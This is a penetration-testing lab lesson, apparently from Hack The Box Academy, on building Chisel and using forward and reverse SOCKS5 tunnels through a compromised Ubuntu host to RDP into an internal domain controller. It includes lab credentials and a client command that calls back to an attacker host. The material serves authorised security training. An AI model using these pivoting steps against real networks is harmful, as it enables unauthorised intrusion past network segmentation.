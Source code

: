 ## SOCKS5 Tunneling with Chisel

> - Lab Instructions

1. Target IP - 10.129.158.146
2. Username: ubuntu
3. Password: HTB_@cademy_stdnt!
4. Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123).
5. Submit the contents of C:\Users\victor\Documents\flag.txt as the answer.

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. **Chisel** can create a client-server tunnel connection in a firewall restricted environment. Let us consider a scenario where we have to tunnel our traffic to a webserver on the **172.16.5.0/23** network (internal network). We have the Domain Controller with the address **172.16.5.19**. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.


### Setting Up & Using Chisel


Before we can use Chisel, we need to have it on our attack host. If we do not have Chisel on our attack host, we can clone the project repo using the command directly below:

	$ git clone https://github.com/jpillora/chisel.git

We will need the programming language **Go** installed on our system to build the Chisel binary. With Go installed on the system, we can move into that directory and use **go build** to build the Chisel binary.


### Building the Chisel Binary

	$ cd chisel
	$ go build


It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. Two beneficial resources to complement this particular concept are Oxdf's blog post ["Tunneling with Chisel and SSF"](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html) and IppSec's walkthrough of the box **Reddish**. IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s).

Once the binary is built, we can use **SCP** to transfer it to the target pivot host. 


### Transferring Chisel Binary to Pivot Host

![Transfer Chisel](/socks5-tunneling-w-chisel/images/scp.png) 


Then we can start the Chisel server/listener. 


### Running the Chisel Server on the Pivot Host

![Chisel Server](/socks5-tunneling-w-chisel/images/chisel-server.png) 


The Chisel listener will listen for **incoming connections on port 1234 using SOCKS5 (--socks5)** and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network. 

We can start a client on our attack host and connect to the Chisel server. 


### Connecting to the Chisel Server

![Chisel Client](/socks5-tunneling-w-chisel/images/chisel-client.png) 


As you can see in the above output, the Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080. Now we can modify our proxychains.conf file located at **/etc/proxychains.conf and add 1080 port** at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.


### Editing & Confirming proxychains.conf

We can use any text editor we would like to edit the proxychains.conf file, then confirm our configuration changes using **tail**.


![Proxychains](/socks5-tunneling-w-chisel/images/proxychains-conf.png) 


Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.


### Pivoting to the DC


![RDP](/socks5-tunneling-w-chisel/images/rdp-dc.png) 


### Chisel Reverse Pivot


In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has **--reverse enabled**, remotes can be prefixed with **R** to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying **R:socks** will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy. 

We'll start the server in our attack host with the option **--reverse**. 


### Starting the Chisel Server on our Attack Host


	$ ./chisel_arm server --reverse -v -p 9999 --socks5

![Attack Server](/socks5-tunneling-w-chisel/images/attack-server.png) 

Then we connect from the Ubuntu (pivot host) to our attack host, using the option **R:socks**. 


### Connecting the Chisel Client to our Attack Host 


![Target Client](/socks5-tunneling-w-chisel/images/target-client.png) 


	$ ./chisel client -v 10.10.14.101:9999 R:socks


We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using **tail.** 


### Editing & Confirming proxychains.conf


![Proxychains](/socks5-tunneling-w-chisel/images/proxy-conf.png) 


If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.


![Chisel DC](/socks5-tunneling-w-chisel/images/attack-to-dc.png) 

